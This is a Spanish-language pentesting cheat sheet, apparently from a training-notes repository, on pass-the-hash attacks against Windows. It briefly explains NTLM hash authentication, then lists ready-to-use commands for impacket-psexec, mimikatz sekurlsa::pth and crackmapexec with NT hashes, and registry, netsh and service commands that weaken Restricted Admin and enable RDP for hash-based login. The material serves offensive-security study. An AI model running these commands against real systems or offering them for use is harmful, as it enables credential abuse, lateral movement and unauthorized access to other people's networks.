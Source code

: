 # Pass the hash

#### [Pass the ticket](./passTheTicket.md)
#### [Pass the ticket LINUX](./passTheTicketLinux.md)
- [more info](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key)

## Español:

#### Definición
- El ataque PTH es una tecnica utilizada para comprometer cuentas en ambientes windows sin tener la necesidad de conocer las contraseñas en texto plano. En lugar de usar la contraseña se utiliza el hash de la misma para autenticarse.

## Utilización
1. Post explotación
2. Movimiento lateral: Para moverse lateralmente dentro de una red si la maquina comprometida tiene acceso a recursos compartidos.
3. Escalación de privilegios

## Funcionamiento
- Mediante NTLM.
- NTLM es un protocolo de autenticación Windows que no requiere la contraseña en texto plano para validar autenticaciones (hashes NT).
    - Obtener hash NT de un usuario (dumping de credenciales con mimikatz x ej).
    - Usar el hash para autenticarse.
    - Acceder a recursos protegidos (smb, rdp, winrm, etc).

### Impacket con psexec
`impacket-psexec administrator@10.129.201.126 -hashes :<NT_HASH>`
`DOMAIN/USER@TARGET -hashes LMHASH:NTHASH`

### Mimikatz
- Permite autenticar usando hashes con el modulo `sekurlsa::pth`
`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
`sekurlsa::pth /user:admin /domain:. /ntlm:0123456789abcdef0123456789abcdef /run:cmd.exe`

### Crackmapexec
`crackmapexec smb TARGET_IP -u USER -H NTHASH`
`cme smb 192.168.1.10 -u admin -H 0123456789abcdef0123456789abcdef`

## Permitir Pth con RDP
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
- ![](https://academy.hackthebox.com/storage/modules/147/rdp_session-5.png)
- Una vez de que la llave fue agregada al registro del sistema podemos intntar usar xfreerdp con la opción /pth

## Activar RDP si está desactivado
- `reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- `netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes`
- `sc config TermService start= auto`
- `net start TermService`
